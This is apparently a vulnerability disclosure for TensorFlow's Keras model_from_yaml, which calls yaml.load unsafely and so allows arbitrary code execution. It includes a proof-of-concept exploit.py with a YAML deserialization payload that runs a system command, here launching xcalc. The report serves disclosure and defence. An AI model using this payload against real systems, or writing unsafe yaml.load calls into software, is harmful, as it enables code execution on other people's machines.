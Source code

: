 # Description
TensorFlow is an end-to-end open source platform for machine learning. It has a comprehensive, flexible ecosystem of tools, libraries, and community resources that lets researchers push the state-of-the-art in ML and developers easily build and deploy ML-powered applications.
* **Vulnerability description**
unsafe loading of data by the yaml.load function leading to Arbitrary code execution.
# Proof of Concept
* Vulnerable code part 
```python
    config = yaml.load(yaml_string)
    //https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/keras/saving/model_config.py#L103
```
1. run exploit.py
```python
# exploit.py
import os
os.system('pip install tensorflow')
from tensorflow.python.keras.saving import model_config
payload = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
model_config.model_from_yaml(payload,None)
```

